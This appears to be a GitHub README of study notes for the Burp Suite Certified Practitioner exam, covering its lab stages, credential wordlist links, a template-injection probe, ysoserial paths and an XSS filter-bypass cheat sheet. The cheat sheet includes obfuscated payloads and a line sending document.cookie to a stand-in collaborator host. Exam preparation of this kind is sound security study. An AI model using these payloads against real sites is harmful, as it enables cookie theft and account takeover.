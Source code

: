 # BSCP
Burp Suite Certified Practitioner exam notes

---------

You will have four hours to complete the Burp Suite Certified Practitioner exam. There are two applications, and each application contains deliberate vulnerabilities. This means that each application can be completed in three stages:

1. Access any user account.
2. Use your user account to access the admin interface, perhaps by elevating your privileges or compromising the administrator account.
3. Use the admin interface to read the contents of `/home/carlos/secret` from the server's filesystem, and submit it using "submit solution".

[Username list](https://portswigger.net/web-security/authentication/auth-lab-usernames) 

[Password list](https://portswigger.net/web-security/authentication/auth-lab-passwords)

If you find an SSRF vulnerability, you can use it to read files by accessing an internal-only service, running on localhost on port `6566`.

`${{<%[%'"}}%\`

java path
```
D:\Application\java\jdk-11.0.20\bin\java.exe
```
ysoserial path
```
D:\Tools\tools\ysoserial\ysoserial-all.jar
```

XSS Bypass

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#filter-bypass-and-exotic-payloads

```
eval(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))   <--  [echo -n "alert(document.cookie)" | base64 == YWxlcnQoZG9jdW1lbnQuY29va2llKQ==]
alert`1`
setTimeout`alert\u0028document.domain\u0029`;
window['alert'](document['domain'])
window["doc"+"ument"]

location="http://google.com"
document.location = "http://google.com"
document.location="https://COLLABORATOR.com?c="+document.cookie
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"





```















![image](https://github.com/Manoj-Mukund/BSCP/assets/83630751/76c816f9-3c59-4a86-88b2-9b93c64402db)

